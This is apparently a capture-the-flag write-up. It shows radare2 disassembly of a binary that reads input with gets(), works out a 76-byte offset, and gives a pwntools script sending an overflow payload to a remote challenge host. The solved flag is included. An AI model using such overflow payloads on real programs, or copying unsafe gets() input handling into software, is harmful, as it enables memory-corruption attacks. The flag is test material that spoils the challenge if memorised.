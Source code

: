 ```text
[0x000010c0]> pdf@main
            ; DATA XREF from entry0 @ 0x10dd
┌ 248: int main (int argc, char **argv, char **envp);
│           ; var char *var_90h @ rbp-0x90
│           ; var char *s @ rbp-0x50
│           ; var file*stream @ rbp-0x10
│           ; var uint32_t var_4h @ rbp-0x4
...
│           0x000011e6      488d45b0       lea rax, [s]
│           0x000011ea      4889c7         mov rdi, rax                ; char *s
│           0x000011ed      b800000000     mov eax, 0
│           0x000011f2      e869feffff     call sym.imp.gets           ; char *gets(char *s)
│           0x000011f7      837dfc01       cmp dword [var_4h], 1
│       ┌─< 0x000011fb      0f8589000000   jne 0x128a
│       │   0x00001201      488d45b0       lea rax, [s]
...
```

The address of our can_read_flag variable is `$rbp-0x4` and the address we're writing to (s) is `$rbp-0x50`.  `0x50-0x4 = 76` which means we need to write 76 bytes before we start overflowing into can_read_flag.  It's also worth noting that we need to write binary 0x00000001 and not the ascii value "1" (which is 0x31).  To do this we can use the pwntools function `p32` which packs an integer into a 32 bit bytestring.  


```python
#!/usr/bin/env python3

from pwn import *
import re

context.log_level = logging.ERROR

exe = ELF("./chall")

context.binary = exe
context.terminal = ["termite","-e"]

def conn():
    if args.LOCAL:
        return process([exe.path])
    else:
        return remote("ctf.cybr.club", 2000)


def main():
    r = conn()

    r.sendline(b"A" * 76 + p32(1))

    print(re.search("(FLAG{.*})",r.recvall().decode()).group(1))


if __name__ == "__main__":
    main()

```
flag: `FLAG{v4r14bl3_0v3rwr173_cea492}`
